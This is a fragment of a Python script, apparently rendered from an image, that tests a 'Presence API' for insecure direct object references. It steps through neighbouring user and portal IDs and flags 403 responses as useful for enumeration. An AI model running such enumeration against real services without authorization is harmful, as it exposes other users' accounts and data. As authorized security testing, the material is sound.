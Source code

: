 ```python
    except urllib.error.HTTPError as e:
        print(f"✗ HTTP {e.code}: {e.reason}")

        try:
            error = json.loads(e.read().decode('utf-8'))
            print(f"  {json.dumps(error, indent=2)}")

            if e.code == 403:
                print(f"  → Resource exists but forbidden (good for enumeration)")
            elif e.code == 404:
                print(f"  → Resource doesn't exist")
            elif e.code == 488:
                print(f"  → Wrong hublet: {error.get('correctHublet')}")

        except:
            pass

        return False, e.code

    except Exception as e:
        print(f"✗ Error: {e}")
        return False, None

print("="*70)
print("PRESENCE API - IDOR TESTING")
print("="*70)

# Test 1: Your own user (baseline)
test_presence(PORTAL_ID, USER_ID, "Baseline (Own User)")

# Test 2: Different user IDs (IDOR test)
print(f"\n{'#'*70}")
print("# IDOR TEST: User Enumeration")
print(f"{'#'*70}")

for offset in [+1, +2, +10, +100, -1]:
    test_user = str(int(USER_ID) + offset)
    test_presence(PORTAL_ID, test_user, f"User ID {offset:+d}")

# Test 3: Different portal IDs (IDOR test)
print(f"\n{'#'*70}")
print("# IDOR TEST: Portal Enumeration")
print(f"{'#'*70}")

for offset in [+1, +2, +10, -1]:
    test_portal = str(int(PORTAL_ID) + offset)
    test_presence(test_portal, USER_ID, f"Portal ID {offset:+d}")

print(f"\n{'='*70}")
print("TESTING COMPLETE")
print('='*70)
```

---
